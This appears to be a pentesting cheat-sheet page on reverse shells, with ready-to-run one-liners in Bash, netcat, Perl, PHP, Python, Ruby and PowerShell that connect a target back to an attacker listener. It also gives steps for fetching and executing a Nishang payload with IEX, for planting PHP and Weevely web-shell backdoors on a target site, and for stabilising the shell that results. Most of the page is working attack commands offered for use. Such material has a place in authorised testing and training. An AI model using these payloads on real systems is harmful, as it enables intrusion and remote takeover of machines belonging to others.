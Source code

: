 ```yaml
---
title: Reverse Shell
desc: 
tags: [Linux, Netcat, Privilege Escalation, Reverse Shell, Windows]
alts: [Privilege-Escalation-Linux, Privilege-Escalation-Windows]
render_with_liquid: false
---
```


## 1. Basic Flow

1. **Open Listener in Your Local Machine**

    First of all, you need to open listener in your local machine.

    ```sh
    nc -lvnp 4444
    ```

2. **Reverse Shell via Command Line**

    - **Bash**

        ```sh
        bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1
        ```

    - **Netcat OpenBSD**

        ```sh
        rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
        ```

    - **Perl**

        ```sh
        perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        ```

    - **PHP**

        ```sh
        php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
        ```

    - **Python**

        ```sh
        export RHOST="10.0.0.1";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
        ```

    - **Ruby**

        ```sh
        ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
        ```

    - **PowerShell**

        ```sh
        powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

        powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
        ```

    - **Nishang**

        **[Nishang](https://github.com/samratashok/nishang){:target="_blank"}** is the Offensive PowerShell for red team, penetration testing and offensive security.

        1. **Preparing the Payload in Your Local Machine**

            First off, copy the payload to the current working directory.

            ```sh
            cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
            mv Invoke-PowerShellTcp.ps1 shell.ps1
            ```

            Add the following code to the final line in the payload (shell.ps1).

            ```powershell
            Invoke-PowerShellTcp -Reverse  -IPAddress <your-local-ip> -Port 4444
            ```

        2. **Opening Wev Server in Your Local Machine**

            To download the payload and execute the reverse shell in the target machine, open the web server in your local machine.

            ```sh
            python3 -m http.server 8000
            ```

        3. **Downloading the Payload and Executing Reverse Shell**

            In the target machine, download the local-hosted payload and run reverse shell.

            ```sh
            cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://<your-local-ip>:8000/shell.ps1')
            ```

3. **Reverse Shell via Website**

    -  **PHP Reverse Shell**

        [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"} is an awesome payload against a website using PHP.

        ```sh
        wget https://github.com/pentestmonkey/php-reverse-shell -O shell.php

        # Edit $ip and $port to your local ip:port in the payload

        ```

        Then upload the payload, or copy the content and paste to somewhere in the target website directly, and reload the page.

    - **Useful Tools**

        - **[Weevely3](https://github.com/epinna/weevely3){:target="_blank"}**

            A web shell generator.

            1. **Generate Backdoor with Password**

                Credentials required.

                ```sh
                weevely generate <password> ./shell.php
                ```

            2. **Upload the Payload to Target Website and Execute Commands**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password> whoami
                ```

            3. **Get a Shell**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password>

                ```

4. **Upgrade to a Full Functional Shell**

    After successful reverse shell, it's recommended to make the shell to be more elegant.

    ```sh
    SHELL=/bin/bash script -q /dev/null
    # or
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```

    The commands below make "your" shell even more perfect.

    ```sh
    Ctrl+z
    stty raw -echo;fg
    Enter x2
    export TERM=xterm
    ```

<br />

## 2. Pwncat

**[Pwncat](https://pwncat.org/){:target="_blank"}** is a reverse and bind shell handler.
